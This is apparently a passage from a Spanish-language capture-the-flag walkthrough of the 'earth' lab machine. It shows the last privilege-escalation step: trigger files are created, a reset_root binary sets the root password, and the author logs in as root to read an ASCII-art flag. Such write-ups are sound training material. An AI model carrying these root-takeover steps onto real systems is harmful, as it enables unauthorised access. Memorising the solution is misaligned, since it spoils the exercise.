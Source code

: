 ```
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```
Vale, ya casi hemos acabado, asi que vamos a probar si funciona lo que acabamos de hacer y vemos que se resetea finalmente la contraseña del usuario "root" a "Earth"
```
bash-5.1$ reset_root

CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth

bash-5.1$
```
Ya unicamente nos quedaria entrar como este usuario utilizando el comando "su root" e introduciendo la contraseña que acabamos de obtener:
```
bash-5.1$ su root

Password: Earth

[root@earth /]# 
```
**PERFECTO. YA ESTARIA TERMINADA LA MAQUINA !!!
HEMOS CONSEGUIDO ACABARLA !!!**

No obstante, si queremos ver una pequeña imagen por terminal bastante interesante, entraremos en el directorio "root" y lanzaremos un "ls", donde podremos ver que contiene dos archivos:
```
[root@earth /]# cd root

[root@earth ~]# ls

anaconda-ks.cfg  root_flag.txt

[root@earth ~]#
```
Si hacemos un "cat" sobre el archivo "root_flag.txt" obtendremos nuestra imagen secreta:
```
[root@earth ~]# cat root_flag.txt

              _-o#&&*''''?d:>b\_
          _o/"`''  '',, dMF9MMMMMHo_
       .o&#'        `"MbHMMMMMMMMMMMHo.
     .o"" '         vodM*$&&HMMMMMMMMMM?.
    ,'              $M&ood,~'`(&##MMMMMMH\
   /               ,MMMMMMM#b?#bobMMMMHMMML
  &              ?MMMMMMMMMMMMMMMMM7MMM$R*Hk
 ?$.            :MMMMMMMMMMMMMMMMMMM/HMMM|`*L
|               |MMMMMMMMMMMMMMMMMMMMbMH'   T,
$H#:            `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#MMMMMMMMMMMMM'    -
MMMMMb_                   |MMMMMMMMMMMP'     :
HMMMMMMMHo                 `MMMMMMMMMT       .
?MMMMMMMMP                  9MMMMMMMM}       -
-?MMMMMMM                  |MMMMMMMMM?,d-    '
 :|MMMMMM-                 `MMMMMMMT .M|.   :
  .9MMM[                    &MMMMM*' `'    .
   :9MMk                    `MMM#"        -
     &M}                     `          .-
      `&.                             .
        `~,   .                     ./
            . _                  .-
              '`--._,dd###pp=""'

```